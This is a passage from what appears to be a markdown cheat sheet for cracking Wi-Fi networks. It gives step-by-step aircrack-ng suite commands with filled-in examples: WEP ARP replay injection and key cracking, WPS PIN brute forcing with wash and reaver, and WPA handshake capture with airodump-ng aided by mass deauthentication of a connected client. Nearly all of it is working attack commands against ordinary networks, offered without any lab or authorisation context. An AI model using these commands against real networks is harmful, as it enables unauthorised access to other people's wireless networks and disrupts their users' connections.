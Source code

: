 we will wait for an ARP packet , we will then capture this packet and 
inject it into the traffic , this will force the AP to generate a new 
ARP packet with a new IV , we capture this new packet and inject into 
the traffic again , this process is repeated until the number of IV's 
captured is sufficient enough to crack the key.
```
> aireplay-ng --arpreplay -b [targe MAC] -h [your MAC] [interface]

Example: 

> aireplay-ng --arpreplay -b E0:69:95:B8:BF:77 -h 00:c0:ca:6c:ca:12 mon0
```

Then we try to crack the key

`> aircrack-ng out.cap`

## WPA Cracking

### CASE 1: BASE CASE WITH WPS ENABLED 

Encrypted with a unique temporary key, number of data collected is irrelevant.

Scan for AP's where WPS is enabled (vulnerable)
```
> wash -i [interface]

Example:

> wash -i mon0
```

Brute force the WPS ping and calculate the WPA key
```
> reaver -i [interface] -b [TARGET AP MAC] -c [TARGET CHANNEL] -vv

Example: 

> reaver -b E0:69:95:8E:18:22 -c 11 -i mon0
```

### CASE 2: WPS DISABLED, CAPTURING HANDSHAKE

Handshake packets are sent every time a client associates with the target AP.
Start airodump to see if there are clients connected to the AP
```
> airodump-ng --channel [channel] --bssid [bssid] --write [file-name] [interface]

Example: 

> airodump-ng –channel 6 –bssid 11:22:33:44:55:66 –write out mon0
```
Wait for a client to connect to the AP, or deauthenticate a connected
client (if any) for a very short period of time so that their system will
connect back automatically.
```
> aireplay-ng --deauth [number of deauth packets] -a [AP] -c [target] [interface]

Example: 

> aireplay-ng --deauth 1000 -a 11:22:33:44:55:66 -c 00:AA:11:22:33:44 mon0
```
(Notice top right corner of airodump-ng will say “WPA handshake”.)
